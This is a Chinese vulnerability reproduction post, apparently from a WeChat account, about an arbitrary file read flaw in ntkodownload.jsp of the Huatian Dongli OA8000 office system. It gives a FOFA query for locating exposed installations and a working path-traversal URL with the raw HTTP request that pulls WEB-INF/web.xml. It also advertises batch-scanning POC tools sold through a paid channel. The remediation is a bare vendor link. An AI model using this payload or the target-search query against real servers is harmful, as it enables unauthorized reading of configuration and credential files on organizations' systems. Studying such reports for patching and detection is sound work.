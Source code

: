 #  华天动力OA8000办公系统ntkodownload.jsp存在任意文件读取漏洞 附POC软件   
南风徐来  南风漏洞复现文库   2024-03-01 23:24  
  
免责声明：请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
## 1. 华天动力OA8000办公系统ntkodownload.jsp简介  
  
微信公众号搜索：南风漏洞复现文库 该文章 南风漏洞复现文库 公众号首发  
  
华天动力OA8000办公系统  
## 2.漏洞描述  
  
华天动力是我国首批OA企业,是双软认证的高新技术企业,专注OA办公系统20余年,开放免费OA系统下载试用,旗下OA产品累计为37500多个客户提供高效OA办公体验,为各类政府企业提供高端高效OA系统产品,华天动力OA办公系统存在任意文件读取漏洞。  
  
CVE编号:  
  
CNNVD编号:  
  
CNVD编号:  
## 3.影响版本  
  
华天动力OA8000办公系统  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3ZxKraLZMIE3ibS9TJPz2Nuz3mWghwtudNbicGrqNNBObCS3hrYMnpyicqVjYTomAibu0KPKBbllBkmhA/640?wx_fmt=jpeg&from=appmsg "null")  
  
华天动力OA8000办公系统ntkodownload.jsp存在任意文件读取漏洞  
## 4.fofa查询语句  
  
app="华天动力-OA8000"  
## 5.漏洞复现  
  
漏洞链接：http://127.0.0.1/OAapp/jsp/trace/ntkodownload.jsp?filename=../../../../../../../htoa/Tomcat/webapps/ROOT/WEB-INF/web.xml  
  
漏洞数据包：  
```
GET /OAapp/jsp/trace/ntkodownload.jsp?filename=../../../../../../../htoa/Tomcat/webapps/ROOT/WEB-INF/web.xml HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Accept: */*
Connection: Keep-Alive
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3ZxKraLZMIE3ibS9TJPz2Nuz78FH7Q8MXhtdA0Z7zYqz1iapwB89da3RicEjHxtcpjbzPiaUsABJPP5sA/640?wx_fmt=jpeg&from=appmsg "")  
## 6.POC&EXP  
  
本期漏洞及往期漏洞的批量扫描POC及POC工具箱已经上传知识星球：南风网络安全  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3ZxKraLZMIE3ibS9TJPz2NuznobPTOEJYoHiaSrFfHPjW5XwjrKbcZiah681c3ep1yvCFGH8sibOMxJcg/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3ZxKraLZMIE3ibS9TJPz2Nuznj4icc2HG45wunCrJvFI77ckYel7HXHt9AV39GDLY5dMk8vA0dsiaK0w/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3ZxKraLZMIE3ibS9TJPz2NuzmazkaGVbpXvj6P0ULHvza3icj3TSMtibouYRmClYZiawBpV2kb6gSibQuA/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3ZxKraLZMIE3ibS9TJPz2Nuz8ex7vVgicqO0ibziabVRENWwHBhklSp3cItfsicnfcnuLT97pAISjbpicicg/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3ZxKraLZMIE3ibS9TJPz2NuzEKiaQic9r9GLLnKvevjmxyYU8qtkoibx1sKFuVoVxXEMa0IiccSYfuUSsg/640?wx_fmt=jpeg&from=appmsg "null")  
## 7.整改意见  
  
请联系官方更新补丁：https://www.oa8000.com/  
## 8.往期回顾  
  
[蓝凌OA wechatLoginHelper存在SQL注入漏洞 附POC软件](http://mp.weixin.qq.com/s?__biz=MzIxMjEzMDkyMA==&mid=2247485442&idx=1&sn=1dd5f1210b7a66a5852bde27aafdbc1e&chksm=974b8505a03c0c131fe130c035de9c37e9c0bf9c52a284ed05a8b278aa02514be174f3d40464&scene=21#wechat_redirect)  
  
  
[九思OA软件user_list_3g.jsp存在SQL注入漏洞 附POC软件](http://mp.weixin.qq.com/s?__biz=MzIxMjEzMDkyMA==&mid=2247485429&idx=1&sn=339c4d6dbbdb0a82224605c11e82e56c&chksm=974b8af2a03c03e41d8e7c639183eb9298a16add3abec2eea9332c84be6dfb51850e1626c62d&scene=21#wechat_redirect)  
  
  
  
  

